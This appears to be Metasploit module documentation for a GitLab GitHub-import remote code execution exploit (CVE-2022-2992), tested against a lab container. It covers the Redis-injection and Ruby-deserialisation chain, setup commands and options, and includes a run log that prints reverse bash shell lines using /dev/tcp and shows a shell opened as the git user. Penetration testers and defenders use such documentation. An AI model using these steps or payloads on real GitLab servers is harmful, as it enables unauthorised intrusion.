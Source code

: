 ## Vulnerable Application

### Description

An authenticated user can import a repository from Github into Gitlab.

When importing a GitHub repository the Gitlab api client uses `Sawyer` for handling the responses. This takes a JSON hash and converts
it into a Ruby class that has methods matching all of the keys. This happens recursively, and allows for any method to be overridden
including built-in methods such as `to_s`.

The redis gem uses `to_s` and `bytesize` to generate the RESP (Redis serialization protocol) command. By replying with a specially
crafted JSON object (that will be further parsed as a `Sawyer::Resource`), one controlling the Github server can inject arbitrary
redis commands to the stream.

On August 30, 2022, Gitlab released a software update that addressed this vulnerability (CVE-2022-2992).

The following products are affected:

- From 11.10 to 15.1.6
- From 15.2 to 15.2.4
- From 15.3 to 15.3.2


### Exploitation

This module exploits the Gitlab vulnerability by injecting a Ruby serialized object into the Redis user
session object. Once Gitlab calls the Marshal.load when loading the ` _gitlab_session` cookie, it will
execute a deserialisation gadget and trigger the payload.

To achieve that this module:
- Will generate an universal Ruby deserialisation gadget payload;
- Will create an access token for the user targeted;
- Will start a server to emulate the Github and serve the payload to be injected;
- Will create a group and also trigger the Github import feature to the repository from the controlled server
- Will perform a request using the just injected session ID that when loaded must trigger the payload.

After the execution the cleanup method will be called and:
- Should delete the created group and consequently the repository
- Should revoke the access token created
- Should logout the user

### Setup

Create a `docker-compose.yml` file as below:

```yml
services:
  gitlab:
    image: 'gitlab/gitlab-ee:15.3.1-ee.0'
    restart: always
    container_name: gitlab
    hostname: 'gitlab.example'
    network_mode: "bridge"
    ports:
      - '880:80'
      - '8443:443'
    volumes:
      - gitlab_config:/etc/gitlab
      - gitlab_logs:/var/log/gitlab
      - gitlab_data:/var/opt/gitlab
volumes:
  gitlab_config:
    driver: local
  gitlab_logs:
    driver: local
  gitlab_data:
    driver: local
```

Run the below command to create the container:

```
$ docker-compose up
```

Wait for container to be "healthy" before continue. One can use [this](https://github.com/redwaysecurity/CVEs/blob/main/CVE-2022-2992/environment/healthy.sh) bash script to monitor the status.

```
$ # Creating personal access token for the root user
$ TOKEN=`tr -dc A-Za-z0-9 </dev/urandom | head -c 24 ; echo ''`
$ docker exec -e TOKEN=$TOKEN -it gitlab gitlab-rails runner "token = User.find_by_username('root').personal_access_tokens.create(scopes: [:sudo, :api], name: 'Automation token'); token.set_token(ENV['TOKEN']); token.save!"
$ # Using the personal access token from the root user a user.
$ USER=msf
$ PASSWORD=SuperStrongestGitlabPassword
$ curl --request POST --header "PRIVATE-TOKEN: $TOKEN" --data "skip_confirmation=true&email=$USER@gitlab.example&name=$USER&username=$USER&password=$PASSWORD" "http://gitlab.example:880/api/v4/users"
```

## Verification Steps
Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

### TARGETURI (required)

The path to the Gitlab (Default: `/`).

### USERNAME (required)

The username of the target user to authenticate with.

### PASSWORD (required)

The password of the target user to authenticate with.

### NGROK_URL (required)

The Ngrok tunnel url to be used. The Gitlab will perform requests to this address when trying to import the repository.

Example how start the tunnel:
```
ngrok http 127.0.0.1:4567
```

### SRVHOST (required)

The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.

### SRVPORT (required)

The local port to listen on. This is the port to be used when creating the tunnel.

## Scenarios

### Docker container running Gitlab 15.3.1

```
msf6 exploit(multi/http/gitlab_github_import_rce_cve_2022_2992) > options

Module options (exploit/multi/http/gitlab_github_import_rce_cve_2022_2992):

   Name       Current Setting                         Required  Description
   ----       ---------------                         --------  -----------
   NGROK_URL  https://f8f5-194-230-160-77.eu.ngrok.i  yes       The Ngrok tunnel url
              o
   PASSWORD   12345678                                yes       The password for the specified username
   Proxies    http:172.25.144.1:8080                  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     172.25.144.1                            yes       The target host(s), see https://github.com/rapid7/metasploit-framewor
                                                                k/wiki/Using-Metasploit
   RPORT      880                                     yes       The target port (TCP)
   SRVHOST    0.0.0.0                                 yes       The local host or network interface to listen on. This must be an add
                                                                ress on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    4567                                    yes       The local port to listen on.
   SSL        false                                   no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                            no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                                       yes       The base path to the gitlab application
   URIPATH                                            no        The URI to use for this exploit (default is random)
   USERNAME   heyder                                  yes       The username to authenticate as
   VHOST                                              no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting       Required  Description
   ----   ---------------       --------  -----------
   LHOST  host.docker.internal  yes       The listen address (an interface may be specified)
   LPORT  4444                  yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command

msf6 exploit(multi/http/gitlab_github_import_rce_cve_2022_2992) > exploit

[+] bash -c '0<&212-;exec 212<>/dev/tcp/host.docker.internal/4444;sh <&212 >&212 2>&212'
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/http/gitlab_github_import_rce_cve_2022_2992) >
[-] Handler failed to bind to 169.254.192.184:4444:-  -
[*] Started reverse TCP handler on 0.0.0.0:4444
[!] AutoCheck is disabled, proceeding with exploitation
[*] Using URL: http://host.docker.internal:4567/
[*] Executing command: bash -c '0<&151-;exec 151<>/dev/tcp/host.docker.internal/4444;sh <&151 >&151 2>&151'
[*] Session ID: lbid
[*] Creating group KQPhsIKX
[*] Importing a repository from github
[*] Command shell session 1 opened (127.0.0.1:4444 -> 127.0.0.1:58700) at 2022-11-19 15:23:06 +0100

msf6 exploit(multi/http/gitlab_github_import_rce_cve_2022_2992) > sessions -1
[*] Starting interaction with 1...

id
uid=998(git) gid=998(git) groups=998(git)
pwd
/var/opt/gitlab/gitlab-rails/working
exit
[*] Server stopped.
[*] 172.25.144.1 - Command shell session 1 closed.
```
